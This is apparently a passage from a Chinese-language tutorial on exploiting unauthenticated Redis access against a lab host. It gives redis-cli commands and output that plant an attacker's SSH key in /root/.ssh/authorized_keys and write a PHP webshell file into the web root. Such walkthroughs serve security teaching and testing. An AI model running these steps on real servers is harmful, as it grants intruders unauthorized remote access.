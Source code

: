 ![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628512967608-9d62672c-9db3-4b07-94ad-70d03edf02b7-20220415143203434.png)

将公钥导入key.txt文件（前后用\n\n换行，避免和Redis里其他缓存数据混合）

```php
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > key.txt
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628513275098-e5bcd6c4-3c19-4aaa-b2c1-90bd3d3b4a4e-20220415143203451.png)

再把 key.txt 文件内容写入目标主机的缓冲里

```php
cat key.txt | redis-cli -h 192.168.0.126 -x set test 
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628514409894-848f4f59-3b45-449a-8566-c204aed32354-20220415143203297.png)
再通过设置参数，写入指定文件

```php
┌──(root💀kali)-[~/.ssh]
└─# redis-cli -h 192.168.0.126 -p 6379
192.168.0.126:6379> config set dir /root/.ssh
OK
192.168.0.126:6379> config set dbfilename authorized_keys
OK
192.168.0.126:6379> keys *
1) "test"
192.168.0.126:6379> get test
"\n\n\nssh-rsa xxxxxxxxxxxx \n\n\n\n"
192.168.0.126:6379> save
OK
192.168.0.126:6379> 
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628515307073-5d1f3553-587e-476a-9556-beb3c9eb54bf-20220415143203556.png)

- ✅如上则为成功写入SSH密钥文件，攻击机可无需密码远程连接目标主机SSH



### WebShell

当SSH不允许远程登录时，也可以通过写入 Web目录控制目标主机

```php
┌──(root💀kali)-[~/.ssh]
└─# redis-cli -h 192.168.0.126 -p 6379
192.168.0.126:6379> config set dir /var/www/html
OK
192.168.0.126:6379> config set dbfilename xxx.php
OK
192.168.0.126:6379> set web "\r\n\r\n<?php phpinfo();?>\r\n\r\n"
OK
192.168.0.126:6379> save
OK
```
